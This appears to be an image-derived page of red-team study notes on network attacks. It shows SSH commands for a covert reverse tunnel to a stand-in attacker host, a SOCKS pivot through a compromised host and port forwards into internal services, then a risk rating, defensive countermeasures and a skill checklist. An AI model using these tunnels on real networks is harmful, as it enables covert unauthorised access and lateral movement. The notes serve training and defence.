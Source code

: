 ```bash
# SSH Tunneling for Covert Access
ssh -o StrictHostKeyChecking=no -R 3322:localhost:22 user@attacker-mothership.com

# SOCKS Proxy for Network Pivoting
ssh -D 1080 -N -f user@compromised-host.com

# Local Port Forwarding for Internal Access
ssh -L 8080:internal-web:80 user@jumphost
ssh -L 3389:internal-windows:3389 user@jumphost
📈 RISK ASSESSMENT
Detection Risk: MEDIUM-HIGH (Active interception & attacks)

Operational Value: VERY HIGH (Credential access & persistence)

Technical Complexity: HIGH (Requires multiple skill domains)

🔧 DEFENSIVE COUNTERMEASURES UNDERSTOOD
Network segmentation and VLAN isolation

Certificate pinning and HSTS implementation

ARP inspection and DHCP snooping

Intrusion Detection Systems for MITM patterns

Rate limiting and account lockout policies

Multi-factor authentication implementation

Encrypted protocols exclusively (SSH, HTTPS, etc.)

🚀 PROGRESSION IN RED TEAM SKILL MATRIX
✅ Web Application Security
✅ Database Security
✅ Stealth Intelligence Gathering
✅ Direct Engagement Operations
✅ Network Host Discovery
✅ Port & Service Enumeration
✅ Advanced Firewall Evasion
✅ Comprehensive Service Profiling
✅ Protocol-Level Exploitation
✅ Advanced Network Attacks ← PROTOCOLS & SERVICES 2 ADDED
◽ Vulnerability Assessment
◽ Privilege Escalation

OPERATIONAL NOTES: Advanced network attacks represent the intersection of networking knowledge, cryptographic understanding, and operational tradecraft. Successful execution requires careful planning to avoid detection while maximizing intelligence gathering and access establishment capabilities.
